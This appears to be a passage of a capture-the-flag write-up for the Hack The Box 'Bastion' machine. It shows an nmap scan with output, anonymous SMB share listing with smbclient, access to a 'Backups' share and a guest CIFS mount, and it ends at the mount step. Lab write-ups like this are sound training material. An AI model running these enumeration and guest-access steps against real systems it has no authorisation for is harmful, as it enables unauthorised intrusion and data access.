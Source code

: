 <img src="Machines/Bastion/Images/1.PNG">
##Intro 
Target: 10.10.10.134

It's a easy box and I will be using kali linux for solving this.
##Steps
####1. Info Gathering
First, Run a nmap scan to see open ports and services.
```
root@kali:~/CTF# nmap -sC -sV 10.10.10.134
```
And here are the results:
```
Starting Nmap 7.80 ( https://nmap.org ) at 2019-09-08 08:56 EDT
Nmap scan report for 10.10.10.134
Host is up (0.29s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -39m21s, deviation: 1h09m15s, median: 37s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-09-08T14:57:33+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-09-08T12:57:34
|_  start_date: 2019-09-08T11:52:23

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.28 seconds
```
From the open ports, It can be known that the box is a windows machine and we can see its servies. So lets jump right into the fun part. 

####2. Exploitation
There seem to nothing special.Let's try smb service for the port 445. For mb service exploitation in kali, we use smbmap, smbclient, enum4linux, etc.

Lets try smbclient:
```
smbclient -L 10.10.10.134
```
<img src="Machines/Bastion/Images/2.PNG">

With this tool we can see smb shares of this box without any password. Try accessing some shares by 
```smbclient -L //10.10.10.134/**insert sharename here**```. In this case, you can acces **Backups** :
```
root@kali:~/CTF# smbclient //10.10.10.134/Backups

```
<img src="Machines/Bastion/Images/3.PNG">

Voila! We got a shell now.So lets see what we have in here. Now lets see what twe got in there.

4
Content of note.txt:
```
Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
```
Now let's mount that backup folder.

```
mount -t cifs //10.10.10.134/Backups -o user=guest,password= mnt/backups
````


